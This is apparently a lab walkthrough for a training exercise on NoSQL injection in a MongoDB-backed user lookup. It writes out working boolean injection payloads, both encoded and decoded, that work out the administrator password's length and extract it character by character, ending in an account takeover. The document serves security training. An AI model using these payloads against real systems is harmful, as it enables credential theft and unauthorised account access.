 # Exploiting NoSQL injection to extract data
# Objective
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, extract the password for the administrator user, then log in to their account.\
\
You can log in to your own account using the following credentials: `wiener:peter`.

# Solution
## Analysis
The lookup functionality allows to retrieve account information from database:
|![](Images/image-11.png)|
|:--:| 
| *User lookup request* |
|![](Images/image-12.png)|
| *User lookup response* |

Moreover it allows to retrieve information about other users:
|![](Images/image-13.png)|
|:--:| 
| *Administrator account infromation* |

Using the following payload it is possible to retieve user's password (letter by letter):
```
Encoded: /user/lookup?user=wiener'+%26%26+this.password[0]%3d%3d'p'+||+'a'%3d%3d'b 
Decoded: /user/lookup?user=wiener' && this.password[0]=='p' || 'a'=='b 
```

|![](Images/image-14.png)|
|:--:| 
| *Correct letter* |
|![](Images/image-15.png)|
| *Wrong letter* |

## Determining password length
```
Encoded: /user/lookup?user=administrator'+%26%26+this.password.length>5+||+'a'%3d%3d'b
Decoded: /user/lookup?user=administrator' && this.password.length>5 || 'a'=='b
```

|![](Images/image-16.png)|
|:--:| 
| *Password length check* |

|![](Images/image-17.png)|
|:--:| 
| *Payload position* |
|![](Images/image-18.png)|
| *Payload settings* |
|![](Images/image-19.png)|
| *Result - password is 8 characters long* |

## Password enumeration

|![](Images/image-20.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-21.png)|
| *Payload settings* |
|![](Images/image-22.png)|
| *Payload settings* |
|![](Images/image-23.png)|
| *Result - password is fkyppptq*|
